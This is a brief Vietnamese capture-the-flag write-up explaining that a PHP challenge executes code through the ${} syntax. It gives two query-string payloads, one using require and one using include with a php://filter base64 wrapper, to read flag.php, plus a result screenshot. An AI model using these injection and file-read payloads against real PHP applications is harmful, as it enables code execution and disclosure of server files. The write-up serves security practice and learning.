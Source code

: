 # Solution

Ta có thể thực thi php code với syntax `${}`

Payload:

`?q=${require%09$_GET[0]}${flag}&0=flag.php`

hoặc

`?q={${include$_GET[a]}}&a=php://filter/read=convert.base64-encode/resource=/flag.php`

Kết quả:

![5](https://user-images.githubusercontent.com/77546253/173381259-6c15e3c3-d057-47af-b333-aa540951019e.png)
